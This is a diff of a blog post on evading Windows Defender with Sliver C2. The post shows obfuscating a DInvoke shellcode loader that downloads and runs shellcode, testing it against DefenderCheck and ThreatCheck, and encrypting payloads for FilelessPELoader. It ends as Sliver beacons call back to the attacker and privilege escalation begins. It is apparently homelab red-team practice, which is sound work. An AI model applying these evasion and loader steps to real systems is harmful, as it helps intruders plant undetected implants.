

Sliver Evasion updated

diff --git a/_posts/2024-12-26-sliver-evasion.md b/_posts/2024-12-26-sliver-evasion.md
@@ -2,7 +2,7 @@
 layout: single
 title:  "Anti-Virus Evasion with Sliver C2"
 seo_title: "Using DInvoke and Sliver C2 beacons to evade Anti-Virus and Escalate Privileges"
-date:   2024-12-26 15:00:00 +0200
+date:   2025-1-04 09:00:00 +0200
 categories: ['Maldev', 'Windows', 'Homelab']
 classes: wide
 toc: true
@@ -10,20 +10,22 @@ header:
     teaser: "/assets/images/headers/Sliver-Purple.jpg"
 ---
 
-Recently I have been playing around with [Sliver](https://github.com/BishopFox/sliver) from BishopFox as a C2 framework. After trying it out and executing some beacon payloads on a Windows VM, I noticed that the beacons instantly get flagged by Windows Defender. So to improve my Red Teaming skills, I was interested in finding ways to bypass some general anti-virus software like Windows Defender. In this post I will take you through the process of using [DInvoke](https://github.com/Kara-4search/DInvoke_shellcodeload_CSharp/tree/main) as a shellcode injecter and using common obfuscation techniques for bypassing AVs.
+Recently I have been playing around with [Sliver](https://github.com/BishopFox/sliver) from BishopFox as a C2 framework. After using it for some time and executing several beacon payloads on my Windows VM, I noticed that the beacons instantly get dropped by Windows Defender. In order to improve my Red Teaming skills, I was interested in finding ways to bypass some general anti-virus software like Windows Defender. In this post I will take you through the process of using [DInvoke](https://github.com/Kara-4search/DInvoke_shellcodeload_CSharp/tree/main) as a shellcode injecter. I will also showcase how we can make a PE loader to inject code into memory, together with some common obfuscation techniques.
 
 # DInvoke Shellcode Loader (.NET)
-To start building our shellcode loader, I decided to make use of DInvoke by [TheWover](https://github.com/TheWover). Using DInvoke, we can use Dynamic Invocation to load unmanaged code via DLLs at runtime. This can help us avoiding API Hooking by calling arbitrary code from memory, while also avoiding detections that look for imports of suspicious API calls via the Import Address Table. For more information about the DInvoke project, be sure to read [TheWover's blog post](https://thewover.github.io/Dynamic-Invoke/) where he demonstrates how the project works.
+In recent years, more and more tools are coded in C# or ported from PowerShell. One of the features of C# is its ability to call the Win32 API and interact with low-level functions just like you would in C or C++.
 
-In order to make use of DInvoke as a shellcode loader, I modified an existing C# Visual Studio project of [Kara-4search](https://github.com/Kara-4search/DInvoke_shellcodeload_CSharp/tree/main). I changed the original code to download the shellcode from a web server and then load it into memory.
+To build a shellcode loader, I decided to make use of DInvoke by [TheWover](https://github.com/TheWover). Using DInvoke, we can use Dynamic Invocation to load unmanaged code via DLLs at runtime (unlike PInvoke). This can help us avoiding API Hooking by calling arbitrary code from memory, while also avoiding detections that look for imports of suspicious API calls via the Import Address Table. For more information about the DInvoke project, be sure to read [TheWover's blog post](https://thewover.github.io/Dynamic-Invoke/) where he demonstrates how the project works.
+
+In order to make use of DInvoke as a shellcode loader, I made a few modifications to an existing project of [Kara-4search](https://github.com/Kara-4search/DInvoke_shellcodeload_CSharp/tree/main). I changed the original code in order to download my shellcode from a web server and then load it into memory. The applied changes can be seen below.
 
 ![DInvoke Loader](../assets/images/maldev/DInvoke-Loader-1.png)
 
 ## Obfuscation with InvisibilityCloak
-With these changes applied, we can save the project and perform some obfuscation. The [InvisibilityCloak](https://github.com/h4wkst3r/InvisibilityCloak) project serves as an obfuscation toolkit that allows for some quick modifications to your project like changing the name, project GUID, string obfuscation, removing comments and removing program database (PDB) strings. Download the project, compile the binary and run the following command in order to rename the project and apply string reversing as the obfuscation method.
+With our modifications in place, we can save the project and perform some code obfuscation. The [InvisibilityCloak](https://github.com/h4wkst3r/InvisibilityCloak) project serves as an easy-to-use obfuscation toolkit that allows for some quick modifications to your project. This includes things like changing the project name, project GUID, applying string obfuscation, removing comments and removing program database (PDB) strings. Just clone the project, compile the binary and run the following command in order to rename the project and apply string reversing as the obfuscation method.
 
 ```console
-C:\Tools\Python\InvisibilityCloak> python.exe InvisibilityCloak.py -d C:\Tools\DInvoke_Loader\DInvoke_shellcodeload -n "Bashee" -m reverse
+C:\Tools\Python\InvisibilityCloak> python.exe InvisibilityCloak.py -d C:\Tools\DInvoke_Loader\DInvoke_shellcodeload -n "s3rp3nt" -m reverse
 ,                 .     .   .        ,-. .         ,
 |         o     o |   o | o |       /    |         |
 | ;-. . , . ,-. . |-. . | . |-  . . |    | ,-. ,-: | ,
@@ -33,7 +35,7 @@ C:\Tools\Python\InvisibilityCloak> python.exe InvisibilityCloak.py -d C:\Tools\D
 ====================================================
 [*] INFO: String obfuscation method: reverse
 [*] INFO: Directory of C# project: C:\Tools\DInvoke_Loader\DInvoke_shellcodeload
-[*] INFO: New tool name: Bashee
+[*] INFO: New tool name: s3rp3nt
 ====================================================
 
 [*] INFO: Generating new GUID for C# project
@@ -46,12 +48,12 @@ C:\Tools\DInvoke_Loader\DInvoke_shellcodeloadDInvoke_test\Properties\AssemblyInf
 
 [*] INFO: Removing PDB string in C# project file
 
-[*] INFO: Renaming DInvoke_shellcodeload.sln to Bashee.sln
-[*] INFO: Renaming DInvoke_shellcodeload.csproj to Bashee.csproj
-[*] INFO: Renaming directory DInvoke_shellcodeload to Bashee
+[*] INFO: Renaming DInvoke_shellcodeload.sln to s3rp3nt.sln
+[*] INFO: Renaming DInvoke_shellcodeload.csproj to s3rp3nt.csproj
+[*] INFO: Renaming directory DInvoke_shellcodeload to s3rp3nt
 
 [+] SUCCESS: New GUID of 1465ec05-f1b9-48e2-af4a-442f974e22a1 was generated and replaced in your project
-[+] SUCCESS: New tool name of Bashee was replaced in project
+[+] SUCCESS: New tool name of s3rp3nt was replaced in project
 
 [*] INFO: Performing reverse obfuscation on strings in C:\Tools\DInvoke_Loader\DInvoke_shellcodeload\DInvokeFunctions.cs
 [*] INFO: Performing reverse obfuscation on strings in C:\Tools\DInvoke_Loader\DInvoke_shellcodeload\DInvoke_test\DELEGATES.cs
@@ -61,41 +63,43 @@ C:\Tools\DInvoke_Loader\DInvoke_shellcodeloadDInvoke_test\Properties\AssemblyInf
 [*] INFO: Performing reverse obfuscation on strings in C:\Tools\DInvoke_Loader\DInvoke_shellcodeload\DInvoke_test\obj\x64\Release\.NETFramework,Version=v4.7.2.AssemblyAttributes.cs
 [*] INFO: Performing reverse obfuscation on strings in C:\Tools\DInvoke_Loader\DInvoke_shellcodeload\DInvoke_test\obj\x86\Debug\.NETFramework,Version=v4.7.2.AssemblyAttributes.cs
 
-[+] SUCCESS: Your new tool Bashee now has the invisibility cloak applied.
+[+] SUCCESS: Your new tool s3rp3nt now has the invisibility cloak applied.
 ```
 
-From the output we see that we have succesfully obfuscated the project. Before compiling, let's change all string references to DInvoke to another custom string (e.g. "Bashee"). We will also change the project output type to be a Windows Application in order to avoid a console pop-up when executing the binary.
+From the output we see that we have succesfully obfuscated the project. Before compiling, let's change all string references to DInvoke to another custom string (e.g. "s3rp3nt"). We will also change the project output type to be a Windows Application in order to avoid a console pop-up when executing the binary.
 
 ![DInvoke loader](../assets/images/maldev/DInvoke-Loader-2.png)
 
-We can now compile the project to x64 architecture in release mode. 
+We can now compile the project to x64 architecture in release mode by going to `Build > Build Solution`.
 
 ## AV Check
-With our loader ready, we can check if the file is not flagged as malicious by running [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck) or [DefenderCheck](https://github.com/matterpreter/DefenderCheck).
+With our loader ready, we can verify if our file is not getting detected as malicious by running [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck) or [DefenderCheck](https://github.com/matterpreter/DefenderCheck).
 
 ```console
-C:\Tools> DefenderCheck.exe BasheeLoader.exe
+C:\Tools> DefenderCheck.exe s3rp3ntLoader.exe
 Target file size: 8192 bytes
 Analyzing...
 
 Exhausted the search. The binary looks good to go!
 
-C:\Tools\ThreatCheck\bin\Release> ThreatCheck.exe -f C:\Tools\BasheeLoader.exe
+C:\Tools\ThreatCheck\bin\Release> ThreatCheck.exe -f C:\Tools\s3rp3ntLoader.exe
 [+] No threat found!
 ```
 
-No threats have been found! This means that we have now made a program that can fetch our shellcode and execute it in memory without triggering Defender.
+No threats have been found!
 
 # FilelessPELoader (C++)
-The one downside to the above approach is that it requires .NET to be installed on the host to be able to execute our loader. Another technique that can be used to load an encrypted version in memory, decrypt it and execute the payload. To do this, we can make use of the [FilelessPELoader](https://github.com/SaadAhla/FilelessPELoader) project and obfuscate the code. Since this is not a C# project, we cannot use InvisibilityCloak to do the obfuscation. We will do the this manually this time. Again we can use either DefenderCheck or ThreatCheck to see if our executable is good to go.
+One downside of using DInvoke is that it requires .NET to be installed on the host to be able to execute our loader because of the CLR. This means that we need to write our application in another language like C++. At this point I don't feel like rewriting the whole project in C++ so I will make use of another way.
+
+Another technique that can be used is to load an encrypted version of our shellcode in memory, decrypt it and execute it. To do this, we can make use of the [FilelessPELoader](https://github.com/SaadAhla/FilelessPELoader) project and again do some obfuscation on the original code. Since this is not a C# project, we cannot use InvisibilityCloak to do the obfuscation, so we will do it manually this time. Again we can use either DefenderCheck or ThreatCheck to see if our executable is good to go. Let's first clone the project and compile our binary without any modifications.
 
 ![FilelessPELoader](../assets/images/maldev/FilelessPELoader-1.png)
 
-From the above output, we can see that our file has some bad bytes that will be detected by AV. To fix this I removed all comments, any unnecessary print statements and reversed a few function names.
+From the above output, we can see that ThreatCheck has identified some bad bytes that will be detected by AV. To fix this I removed all comments, any unnecessary print statements or functions, and reversed several function names. I am not going into detail on how to obfuscate the code, since it should be relatively easy to bypass any signature checks.
 
 ![FilelessPELoader](../assets/images/maldev/FilelessPELoader-2.png)
 
-Afterwards we can encrypt any file we want with the `aes.py` script.
+The project comes with a custom `aes.py` script that can be used to encrypt any file we want. The idea is that our loader will fetch the encrypted binary (`cipher.bin`) together with a key (`key.bin`) in order to decrypt it.
 
 ```console
 $ python3 aes.py malicious_file.exe
@@ -103,11 +107,11 @@ $ ls
 aes.py cipher.bin key.bin malicious_file.exe
 ```
 
-This will create the files `cipher.bin` and `key.bin` that we can pass to our loader as arguments in order to retrieve the files. In the next section we will have a look at how we can make use of our loaders. We can even do this with any file we want in order to evade detection.
+The generated files `cipher.bin` and `key.bin` can be passed to our loader as arguments. In the next section we will have a look at how we can make use of our loaders.
 
 # Sliver in Action
 ## Shellcode Generation
-Moving to our attack machine, we create shellcode for a Sliver C2 beacon. Start Sliver, generate a mTLS beacon targeting your IP and save it to a directory of your choosing. Next we start the mTLS listener.
+Moving to our attack machine, we will create shellcode for a Sliver beacon. Start Sliver, generate a mTLS beacon targeting your IP and save it to a directory of your choosing. Next we start the mTLS listener.
 
 ![Sliver Setup](../assets/images/maldev/sliver-setup.png)
 
@@ -143,7 +147,9 @@ Now with everything set lets try to get a beacon from our victim machine (`172.1
 
 ![Sliver Execution](../assets/images/maldev/sliver-execution.png)
 
-After executing our custom shellcode loader, we can see it has grabbed our beacon from our Python server, loaded our shellcode in memory and we received a connection from our server without alerting Windows Defender. We can also try running our modified FilelessPELoader executable.
+After executing our custom shellcode loader, we can see it has grabbed our beacon from our Python server, loaded our shellcode in memory and we received a connection from our server without alerting Windows Defender. You see that I get a couple of beacon connections, because I rand the executable a couple of times. 
+
+Now we can also try running our modified FilelessPELoader executable.
 
 ```console
 $ python3 aes.py beacon.exe
@@ -156,7 +162,7 @@ Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
 We can now even go a step further and escalate privileges on the victim.
 
 ## Privilege Escalation
-Use the beacon and run `sa-whoami`. This will run a `whoami /all` in a more safe way.
+Use one of the beacons and run `sa-whoami`. This will run a `whoami /all` in a more safe way.
 
 ```console
 [server] sliver (ESSENTIAL_THEATER) > sa-whoami 
